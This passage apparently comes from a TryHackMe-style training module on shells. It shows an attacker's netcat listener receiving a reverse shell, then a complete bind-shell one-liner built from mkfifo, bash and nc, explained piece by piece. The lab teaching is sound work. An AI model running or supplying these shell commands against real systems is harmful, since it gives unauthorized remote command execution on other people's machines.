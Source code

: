 #### Attacker Receives the Shell

Once the above payload is executed, the attacker will receive a reverse shell, as shown below, allowing them to execute commands as if they were logging into a regular terminal in the OS.

#### Attacker Terminal Output (Receiving Shell)

```bash
attacker@kali:~$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.4.99.209] from (UNKNOWN) [10.10.13.37] 59964
To run a command as administrator (user "root"), use "sudo ".
See "man sudo_root" for details.

target@tryhackme:~$
```
The output above shows the connection coming from the IP 10.10.13.37, which is the IP address of the compromised target.

## Bind Shell

As the name indicates, a bind shell will bind a port on the compromised system and listen for a connection; when this connection occurs, it exposes the shell session so the attacker can execute commands remotely.

This method can be used when the compromised target does not allow outgoing connections, but it tends to be less popular since it needs to remain active and listen for connections, which can lead to detection.

### How bind shells work

#### Setting Up the Bind Shell on the Target

Let's create a bind shell. In this case, the attacker can use a command like the one below on the target machine.

`rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 0.0.0.0 8080 > /tmp/f`

Explanation of the Payload
`rm -f /tmp/f` - This command removes any existing named pipe file located at `/tmp/f/`. This ensures that the script can create a new named pipe without conflicts.
`mkfifo /tmp/f` - This command creates a named pipe, or FIFO, at `/tmp/f`. Named pipes allow for two-way communication between processes. In this context, it acts as a conduit for input and output.
`cat /tmp/f` - This command reads data from the named pipe. It waits for input that can be sent through the pipe.
`| bash -i 2>&1` - The output of `cat` is piped to a shell instance (`bash -i`), which allows the attacker to execute commands interactively. The 2>&1 redirects standard error to standard output, ensuring error messages are returned to the attacker.
`| nc -l 0.0.0.0 8080` - Starts Netcat in listen mode (`-l`) on all interfaces (`0.0.0.0`) and port `8080`. The shell will be exposed to the attacker once they connect to this port.
`>/tmp/f` This final part sends the commands' output back into the named pipe, allowing for bidirectional communication.

The command above will listen for incoming connections and expose a bash shell. We need to note that ports below 1024 will require Netcat to be executed with elevated privileges. In this case, using port 8080 will avoid this.
